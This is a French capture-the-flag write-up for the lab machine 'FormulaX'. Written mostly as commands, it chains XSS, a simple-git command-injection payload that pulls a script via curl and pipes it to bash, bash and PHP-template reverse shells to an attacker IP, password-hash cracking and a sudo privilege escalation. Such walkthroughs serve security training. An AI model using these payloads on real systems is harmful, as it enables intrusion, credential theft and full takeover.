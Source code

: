   # FormulaX

	echo "10.10.11.6 formulax.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.6 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.6 -oN nmap.txt
	feroxbuster --silent -u http://formulax.htb
	
Scans classiques.

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)


Après inscription, on arrive sur un chat avec un bot.

Fuzzing => Page **/restricted/contact_us.html** => XSS => Découverte du domaine **dev-git-auto-update.chatbot.htb**

Une RCE existe pour simple-git < 3.15 : https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221

Entrer une URL dans le formulaire qu'il y a sur ce domaine, intercepter avec Burp et mettre notre IP avec un script à la place en utilisant le PoC du dessus : 

    ext::sh -c curl% http://10.10.16.108:8000/rev.sh|bash

Script à héberger : 

    #!/bin/bash
    bash -c "bash -i >& /dev/tcp/10.10.16.108/9999 0>&1"		 



## Pivoting 

    mongo --shell
    
    show dbs
    use testing
    show collections
    db.users.find()
    ...
    hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
    
    ssh frank_dorky@10.10.11.6 
    
    cat user.txt



## Élévation de privilèges

Site web interne.

    /opt/librenms/adduser.php tim tim 10
    ...
    ssh -L 3000:127.0.0.1:3000 frank_dorky@10.10.11.6
    
Aller sur http://127.0.0.1:3000 et se connecter en tant que "tim" / "tim"

    echo "127.0.0.1 librenms.com" >> /etc/hosts

Dans **/templates**, ajouter le shell PHP suivant : 

    @php
    system("bash -c '/bin/bash -i >& /dev/tcp/10.10.16.108/9999 0>&1'");
    @endphp    

On reçoit un shell en tant que "librenms" et il y a un fichier contenant d'autres credentials : 

    cat .custom.env
    ssh kai_relay@10.10.11.6
    
    sudo -l
    
    
>(ALL) NOPASSWD: /usr/bin/office.sh

<br>

Voir : https://www.exploit-db.com/exploits/46544


    nano /tmp/shell.sh
    chmod +x /tmp/shell.sh
    
    sudo /usr/bin/office.sh 
    
    python3 exp.py --host 127.0.0.1 --port 2002

	cat /root/root.txt
